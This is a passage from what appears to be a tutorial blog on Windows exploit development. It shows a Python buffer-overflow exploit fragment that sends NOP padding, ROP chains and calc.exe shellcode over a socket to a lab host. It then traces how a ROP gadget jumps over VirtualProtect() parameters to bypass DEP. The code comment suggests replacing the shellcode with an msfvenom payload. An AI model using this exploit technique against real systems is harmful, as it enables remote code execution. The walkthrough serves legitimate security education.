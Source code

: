 ```python
# Padding between ROP Gadgets and shellcode. Arbitrary number (just make sure you have enough room on the stack)
padding2 = "\x90" * 250

# calc.exe POC payload created with the Windows API system() function.
# You can replace this with an msfvenom payload if you would like
shellcode = "\x31\xc0\x50\x68"
shellcode += "\x63\x61\x6c\x63"
shellcode += "\x54\xbe\x77\xb1"
shellcode += "\xfa\x6f\xff\xd6"

# 5000 byte total crash
filler = "\x43" * (5000-len(command)-len(crash)-len(parameters)-len(padding)-len(rop)-len(padding2)-len(padding2))
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.16.55.148", 9999))
s.send(command+crash+rop+parameters+padding+rop2+padding2+shellcode+filler)
s.close()
```
As you can see, `0xDEADBEEF` has been added to the POC. If all goes well, after the jump over the `VirtualProtect()` parameters, EIP should contain the memory address `0xDEADBEEF`.

ESP is `0x01BCF9EC` before execution:

<img src="{{ site.url }}{{ site.baseurl }}/images/DEP15.png" alt="">

<img src="{{ site.url }}{{ site.baseurl }}/images/DEP16.png" alt="">

ESP after `add esp, 0x1C`:

<img src="{{ site.url }}{{ site.baseurl }}/images/DEP17.png" alt="">

<img src="{{ site.url }}{{ site.baseurl }}/images/DEP18.png" alt="">

As you can see at this point, `0xDEADBEEF` is pointed to by the stack pointer. The next instruction of this ROP gadget is `ret`. This instruction will take ESP (`0xDEADBEEF`) and load it into EIP. What this means, is that if successful, we will have successfully jumped over the `VirtualProtect()` parameters and resumed execution afterwards. 

We have successfully jumped over the parameters!:

<img src="{{ site.url }}{{ site.baseurl }}/images/DEP19.png" alt="">

Now all of the semantics have been taken care of, it is time to start getting the actual parameters onto the stack.

Okay, For Real This Time
---

Notice the state of the stack after everything has been executed:

<img src="{{ site.url }}{{ site.baseurl }}/images/DEP20.png" alt="">
